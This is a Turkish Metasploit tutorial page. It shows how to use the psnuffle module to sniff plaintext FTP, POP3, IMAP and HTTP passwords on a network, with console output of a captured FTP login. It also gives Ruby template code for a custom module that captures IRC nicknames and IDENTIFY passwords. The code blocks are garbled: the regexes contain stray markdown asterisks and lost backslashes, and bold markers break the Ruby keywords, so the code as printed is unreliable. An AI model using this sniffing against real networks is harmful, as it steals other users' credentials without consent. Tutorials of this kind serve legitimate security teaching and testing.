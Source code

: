 ```yaml
---
draft: false
title: MSF İçinde Parola Dinleme
linkTitle: Parola Dinleme
weight: 120
translationKey: password-listening-in-msf
date: 2017-05-16T12:56:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Metasploit kullanarak, ağda bulunan pop3, imap, ftp ve HTTP protokolleri üzerinden gönderilen parolaları dinleyebilirsiniz. Bu amaçla ‘psnuffle‘ modülü bulunmaktadır.
url: /tr/msf-icinde-parola-dinleme/
featured_image: /images/metasploit.jpg
categories:
    - Metasploit Framework
tags:
    - cybersecurity
    - metasploit framework
---
```



Metasploit kullanarak, ağda bulunan pop3, imap, ftp ve HTTP protokolleri üzerinden gönderilen parolaları dinleyebilirsiniz. Bu amaçla ‘psnuffle‘ modülü bulunmaktadır.



`psnuffle` modülü, neredeyse hiçbir ayarlama yapmaya gerek kalmadan kullanılabilir. İsterseniz dışarıdan PCAP dosyası ithal edebilirsiniz. Buradaki örnekte, ayarlar olduğu gibi kullanılacaktır.


```bash
msf > use auxiliary/sniffer/psnuffle
msf auxiliary(psnuffle) > show options

Module options:

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   FILTER                      no        The filter string for **capturing traffic
   INTERFACE                   no        The name of the interface
   PCAPFILE                    no        The name of the PCAP capture file to process
   PROTOCOLS  all              yes       A comma-delimited list of protocols to sniff or "all".
   SNAPLEN    65535            yes       The number of bytes to capture
   TIMEOUT    1                yes       The number of seconds to wait for **new data

msf auxiliary(psnuffle) > run
> Auxiliary module execution completed
> Loaded protocol FTP from /usr/share/metasploit-framework/data/exploits/psnuffle/ftp.rb...
> Loaded protocol IMAP from /usr/share/metasploit-framework/data/exploits/psnuffle/imap.rb...
> Loaded protocol POP3 from /usr/share/metasploit-framework/data/exploits/psnuffle/pop3.rb...
> Loaded protocol URL from /usr/share/metasploit-framework/data/exploits/psnuffle/url.rb...
> Sniffing traffic.....
> Successful FTP Login: 192.168.1.100:21-192.168.1.5:48614 **>>** victim / pass (220 3Com 3CDaemon FTP Server Version 2.0)
```



Gördüğünüz gibi FTP protokolünde `victim` kullanıcı adı ve `pass` parolası ortaya çıkarıldı.



## Psnuffle Özelleştirme



İsterseniz, `psnuffle` aracını, varsayılan olarak dinlediği protokoller haricinde diğer protokoller için de tasarlayabilirsiniz.



Bu özelleştirme işlemi için yapılacak modüller, data/exploits/psnuffle klasörünün içine kaydedilmelidir. Yeni bir modül geliştirmek için öncelikle var olan bir modülü şablon olarak kullanabiliriz.



Aşağıda, POP3 modülünün Düzenli ifadeler kısmı görülmektedir. Bu düzenli ifadeler, dinleme esnasında hangi tür şablona uyan verilerin dikkate alınacağını tanımlamaktadır. Bir miktar karışık gibi görünebilir. Ancak düzenli ifadeleri öğrenmenizi tavsiye ediyoruz. Her yerde karşınıza çıkar ve öğrenirseniz, işinizi kolaylaştırırlar.


```bash
self.sigs = {
:ok => /^(+OK[^n]*****)n/si,
:err => /^(-ERR[^n]*****)n/si,
:user => /^USERs+**([**^n]+)n/si,
:pass => /^PASSs+**([**^n]+)n/si,
:quit => /^(QUITs*****[^n]*****)n/si }
```



## IRC Modülü



Aşağıdaki örneklerde, IRC protokolü için yazılmış bir modülde olması gerekenleri görebilirsiniz.



Öncelikle, dikkate alınacak sinyal tiplerini tanımlayalım. Buradaki IRC komutlarından IDENTIFY, her IRC sunucu tarafından kullanılmamaktadır. En azında Freenode bu şekilde kullanır.


```bash
self.sigs = {
:user => /^(NICKs+[^n]+)/si,
:pass => /b(IDENTIFYs+[^n]+)/si,}
```



## Oturum Tanımlama (Session)



Her modül için mutlaka tanımlanması gereken kısım, hangi Portlar ile ilgileneceğidir. Bu tanımlama için aşağıdaki şablonu kullanabilirsiniz.


```bash
**return if **not pkt[:tcp] # We don't want to handle anything other than tcp
**return if** (pkt[:tcp].src_port **!=** 6667 and pkt[:tcp].dst_port **!=** 6667) # Process only packet on port 6667

#Ensure that the session hash stays the same for both way of communication
**if** (pkt[:tcp].dst_port **==** 6667) # When packet is sent to server
s = find_session("#{pkt[:ip].dst_ip}:#{pkt[:tcp].dst_port}-#{pkt[:ip].src_ip}:#{pkt[:tcp].src_port}")
**else** # When packet is coming from the server
s = find_session("#{pkt[:ip].src_ip}:#{pkt[:tcp].src_port}-#{pkt[:ip].dst_ip}:#{pkt[:tcp].dst_port}")
end
```



Şimdi ise `self.sigs` bölümünde şablonu oluşturulan türde bir paket yakalandığında ne yapılacağını ayarlamanız gerekmekte. Bunun için de aşağıdaki şablonu kullanabilirsiniz.


```bash
**case** matched
when :user # when the pattern "/^(NICKs+[^n]+)/si" is matching the packet content
s[:user]=matches #Store the name into the session hash s for later use
# Do whatever you like here... maybe a puts if you need to
when :pass # When the pattern "/b(IDENTIFYs+[^n]+)/si" is matching
s[:pass]=matches # Store the password into the session hash s as well
**if** (s[:user] and s[:pass]) # When we have the name and the pass sniffed, print it
print "-> IRC login sniffed: #{s[:session]} >> username:#{s[:user]} password:#{s[:pass]}n"
end
sessions.delete(s[:session]) # Remove this session because we dont need to track it anymore
when nil
# No matches, don't do anything else # Just in case anything else is matching...
sessions[s[:session]].merge!**({**k => matches**})** # Just add it to the session object
end
```



Tebrikler kendi modülünüzü yazdınız.
